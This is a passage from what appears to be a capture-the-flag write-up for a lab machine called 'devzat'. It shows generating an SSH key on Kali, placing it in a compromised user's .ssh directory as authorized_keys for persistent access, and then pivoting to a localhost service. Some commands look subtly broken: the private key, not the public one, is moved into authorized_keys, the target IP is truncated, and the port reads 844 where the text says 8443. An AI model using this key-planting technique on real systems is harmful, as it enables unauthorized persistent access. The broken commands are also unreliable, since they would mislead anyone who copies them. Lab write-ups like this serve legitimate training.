 First let us generate the id_rsa file on our local machine

```
┌──(kali㉿kali)-[~/Desktop/ssh]
└─$ ssh-keygen                                                                           1 ⚙
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/Desktop/ssh/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/Desktop/ssh/id_rsa
Your public key has been saved in /home/kali/Desktop/ssh/id_rsa.pub
The key fingerprint is:
SHA256:y5dm5kOjpl/dc3g782uc+UdE5sGmPf2C3gI7/93xjjk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|              .  |
|               +o|
|              ++o|
|             . o+|
|        S    . .o|
|       . .+o....o|
|        ooB=..=+=|
|        oB+ o E#*|
|      .+. .+.o==#|
+----[SHA256]-----+
```

Checking the environment variables, we realize that the "home" environment variable is set to /home/catherine so we will have to add the id_rsa file to /home/catherine/.ssh/id_rsa

```
catherine@devzat:~$ printenv
printenv
SHELL=/bin/bash
PWD=/home/catherine
LOGNAME=catherine
XDG_SESSION_TYPE=tty
HOME=/home/catherine
```

### Obtaining a SSH shell

However, our shell is not a complete SSH shell yet, so it might not be able to work later on when we SSH again. Hence, we will rename the id_rsa file to authorized_keys file.

```
catherine@devzat:/home/catherine/.ssh$mv id_rsa authorized_keys
```

With this we can now ssh into the SSH server and from there ssh again to gain access to the SSH server on port 8443 on localhost

```
┌──(kali㉿kali)-[~/Desktop/ssh]
└─$ ssh -i id_rsa catherine@10.10.118
catherine@devzat:~$ ssh test3@localhost -p 844
```
